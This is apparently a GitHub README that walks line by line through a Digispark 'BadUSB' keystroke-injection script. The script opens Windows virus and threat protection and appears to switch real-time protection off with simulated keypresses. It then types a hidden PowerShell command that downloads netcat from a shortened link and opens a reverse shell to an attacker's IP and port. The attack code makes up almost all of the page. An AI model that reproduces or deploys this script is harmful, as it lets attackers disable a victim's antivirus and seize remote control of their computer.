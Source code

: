 <h2 color="#00979C"> <div align="center"><i>This script uses the DigiKeyboard library to automate keystrokes and input text Here is a breakdown of each line of code:</i></div></h2>

<code color="#00979C">#include "DigiKeyboard.h"</code>
<p>This line includes the header file "DigiKeyboard.h," which provides the necessary definitions and functions for interacting with the DigiKeyboard.</p>
/////
<code color="#00979C">void setup(){</code>
<p>This marks the beginning of the setup() function, which is a special function in Arduino that is called once when the board is powered on or reset.</p>
/////
<code color="#00979C">DigiKeyboard.delay(1000);</code>
<p>This line introduces a delay of 1000 milliseconds (1 second) in the program execution.</p>
////
<code color="#00979C">DigiKeyboard.sendKeyStroke(KEY_S, MOD_GUI_LEFT);</code>
<p>This line simulates pressing the 'S' key along with the left GUI (Windows key) modifier using the sendKeyStroke() function.</p>
/////
<code color="#00979C">DigiKeyboard.delay(1000);</code>
<p>Another delay of 1000 milliseconds is introduced.</p>
/////
<code color="#00979C">DigiKeyboard.print("virus & threat protection");</code>
<p>The print() function is used to simulate typing the string "virus & threat protection" as keystrokes.</p>
////
<code color="#00979C">DigiKeyboard.delay(500);</code>
<p>A delay of 500 milliseconds (0.5 seconds) is added.</p>
//////
<code color="#00979C">DigiKeyboard.sendKeyStroke(KEY_ENTER);</code>
<p>The sendKeyStroke() function simulates pressing the Enter key.</p>
///////
<code color="#00979C">DigiKeyboard.delay(5000);</code>
<p>A delay of 5000 milliseconds (5 seconds) is introduced.</p>
//////
<code color="#00979C">DigiKeyboard.sendKeyStroke(43);</code>
<p>The sendKeyStroke() function is used to simulate tapping a key with the code 43. The specific key associated with code 43 may vary depending on the keyboard layout.</p>
////
<code color="#00979C">DigiKeyboard.sendKeyStroke(KEY_ENTER);</code>
<p>Another Enter key press is simulated.</p>
//////
<code color="#00979C">DigiKeyboard.delay(700);</code>
<p>A delay of 700 milliseconds (0.7 seconds) is added.</p>
////
<code color="#00979C">DigiKeyboard.sendKeyStroke(KEY_ENTER);</code>
<p>Yet another Enter key press is simulated.</p>
/////
<code color="#00979C">DigiKeyboard.delay(700);</code>
<p>Another delay of 700 milliseconds is introduced.</p>
//////
<code color="#00979C">DigiKeyboard.sendKeyStroke(KEY_SPACE);</code>
<p>The sendKeyStroke() function simulates pressing the Space key.</p>
/////
<code color="#00979C">DigiKeyboard.delay(2000);</code>
<p>A delay of 2000 milliseconds (2 seconds) is added.</p>
/////
<code color="#00979C">DigiKeyboard.sendKeyStroke(KEY_Y, MOD_ALT_LEFT);</code>
<p>The sendKeyStroke() function is used to simulate pressing the 'Y' key along with the left Alt modifier.</p>
////
<code color="#00979C">DigiKeyboard.delay(1000);</code>
<p>A delay of 1000 milliseconds (1 second) is introduced.</p>
////
<code color="#00979C">DigiKeyboard.sendKeyStroke(KEY_F4, MOD_ALT_LEFT);</code>
<p><The sendKeyStroke() function is used to simulate pressing the F4 key along with the left Alt modifier. This combination is often used to close the active window in Windows./p>
//////
<code color="#00979C">DigiKeyboard.delay(500);</code>
<p>A delay of 500 milliseconds (0.5 seconds) is added.</p>
////
<code color="#00979C">DigiKeyboard.sendKeyStroke(KEY_R, MOD_GUI_LEFT);</code>
<p>The sendKeyStroke() function is used to simulate pressing the 'R' key along with the left GUI (Windows key) modifier.</p>
////
<code color="#00979C">DigiKeyboard.delay(700);</code>
<p>A delay of 700 milliseconds (0.7 seconds) is introduced.</p>
/////
<code color="#00979C">DigiKeyboard.print("powershell curl -o netcat.exe https://bit.ly/3G3R1d1 ; powershell -w hidden netcat.exe <ip> <port> -e powershell.exe");</code>
<p>The print() function is used to simulate typing the provided string, which contains a PowerShell command.</p>
  
<code color="#00979C">DigiKeyboard.sendKeyStroke(KEY_ENTER);</code>
<p>The sendKeyStroke() function is used to simulate pressing the Enter key.</p>

<code color="#00979C">void loop(){}</code>
<p>This is the loop() function, which runs repeatedly after the setup() function. However, in this code, the loop() function is empty, so it doesn't contain any specific instructions</p>




